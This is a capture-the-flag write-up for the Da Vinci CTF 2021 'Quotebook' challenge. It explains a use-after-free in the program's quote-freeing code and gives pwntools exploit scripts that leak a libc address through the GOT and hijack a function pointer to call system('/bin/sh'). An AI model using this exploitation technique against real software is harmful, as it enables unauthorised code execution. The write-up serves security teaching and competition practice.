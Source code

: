 # Da Vinci CTF 2021 - Quotebook (499 pts)
The subject of this task was:

>
> I created this amazing service to store all my famous quotes. Can you get the flag?
> 
> nc challs.dvc.tf 2222

We are given the binary, the source code for it and the libc used on the server. We'll need to find a vuln into the binary to get a shell and grab a flag from the server (typical pwn task).

## Source analysis

When looking at the source code, we can see that a quote is defined like this:
```c
typedef struct quote_t quote_t;
struct quote_t
{
    char * content;
    unsigned int content_size;
    char * title;
    unsigned int title_size;
    void (*write)(quote_t *);
    void (*read)(quote_t *);
};
```

and we have an array to store the quotes with a variable which indexes the "current" quote:
```c
quote_t * book[NB_PAGE];
unsigned int book_ctr;
```

So, when a quote is created, a buffer of `sizeof(quote_t)` is allocated, then the program asks the title and content size, to allocate buffers from the given size. Then the title and contents are read from `stdin`.

The interesting things happen when freeing a quote:
```c
    int choice = get_choice("Quote number");
    if(choice < 1 || choice >= book_ctr + 1)
    {
        puts("[!] Error : wrong quote number !");
    }
    else
    {
        free(book[choice - 1]);
        book_ctr--;
    }
```

First of all, the buffers containing the title and quote are not freed (enjoy ur memory leak), and even freed, the pointer is still present on the `book` array, and the book_ctr is decremented (which is useless since you can control which entry you want to free).
So from there we can trigger an use-after-free vulnerability.

## Leaking libc address
If we create a quote and destroy it afterwards, the `book` array still contains the address of the freed buffer. This means that if we can control program allocations, then we can write anything we want on that buffer, while the program still believes it's a `quote_t` structure.

And remember, we can allocate buffers from the size we want while creating a quote, and write what we want on it. And since we can list quotes:
```c
void quote_read(quote_t * quote)
{
    printf("[+] %s", quote->title);
    printf("[>] %s", quote->content);
}
```
, if `content` or `title` point to the binary's GOT section, then we can leak a libc's function address, and then getting the libc base.

But we have to be careful, because `book_ctr` is decremented, if we only create one quote and remove it, its pointer will be overwritten by the new quote we create. So let's create 3 quotes, with buffers of size 1. The heap will look like something like this:
```
-----------------------------------------------
| first struct | second struct | third struct |
-----------------------------------------------
    book[0]        book[1]         book[2]
```
The small buffers we allocated are placed in another heap arena (since they are 1 bytes long)

Now, we'll delete the first two structs, the heap will now look like this:
```
------------------------------------------------
| freed chunk  |  freed chunk  |  third struct |
------------------------------------------------
    book[0]        book[1]         book[2]
```

And this time we'll create a new quote (on `book[book_ctr]`), but with a sizeof(quote) length, so the heap will look like this:
```
------------------------------------------------
| book1 buffer |  freed chunk  |  third struct |
------------------------------------------------
    book[0]        book[1]         book[2]
```
We can clearly see that the freed chunk pointed by book[0] contains the second's quote buffer, and we can craft a fake `quote_t` struct with program's GOT  as title pointer.
```python
# Craft UAF with title overwriting first quote_t structure
s.sendline("2")
print(s.recvuntil('size > '))
# title size
s.sendline("1")
print(s.recvuntil(' size > '))
# content size
s.sendline("48")
s.recvuntil('Title > ')

PRINTF_ADDR = 0x404030
RANDOM_BUF = 0x4040c0
#### Craft structure to leak libc ###
# Pack content and content size
buf = pwn.pack(RANDOM_BUF, 64) + pwn.pack(1, 64)
# Pack title addr and size (printf addr in PLT)
buf += pwn.pack(PRINTF_ADDR, 64) + pwn.pack(8, 64)
# Set function pointers
buf += pwn.pack(0x401236, 64) + pwn.pack(0x401294, 64)

# Send title
s.sendline("a")
print(str(s.recv(), 'ascii'))

# Send content
s.sendline(buf)
print(str(s.recv(), 'ascii'))

# Display quote and trigger UAF
s.recv()
s.sendline("3")
print(s.recv())
s.sendline("1")
s.recvline()
leak = s.recvline() # quote contents contain printf addr
```
This way we can get the glibc's printf address, and compute system() address by doing:
```python
leak = s.recvline()
puts_leak = leak[4:4+6]
addr = pwn.unpack(puts_leak, len(puts_leak)*8)
libc_base = addr - libc.symbols["printf"]
system_addr = libc_base + libc.symbols["system"]
```

Now, let's get a shell !
## Pwning the app and getting a shell
Fortunately , the program allows us to edit a quote, this basically means replacing the old buffer's content by something else. Also, the program contains function pointers that we can overwrite to redirect to any address we want since we can craft a whole quote_t structure.

The function pointers have this prototype:
```c
    void (*write)(quote_t *);
    void (*read)(quote_t *);
```
So it would be nice to redirect the control flow to a function which takes one argument, and luckily we have: `system(char *command)` to do this.

So to get a shell we need to:
 - put the `/bin/sh` string at the beginning of the buffer
 - put system address we got from the leak before at the `write` function pointer (since `read` gets overwritten because the programs insert a newline)
 - Edit the first quote (the crafted one) to call our function pointer
 - ???
 - PROFIT

```python
# Edit the second quote so we can control first's quote buffer
s.sendline("4")
s.recv()
s.sendline("2")
# Craft our content buffer
b = b"/bin/sh\x00" + pwn.pack(1, 64)
# Padding to reach function pointers
b += b"A"* 16
b += pwn.pack(system_addr, 64) * 2
s.sendline(b)
s.recvuntil('Choice number > ')

# Edit the first quote to trigger system()
s.sendline("4")
s.recvuntil('Quote number > ')
s.sendline("1")
# Get the shell
s.interactive()
```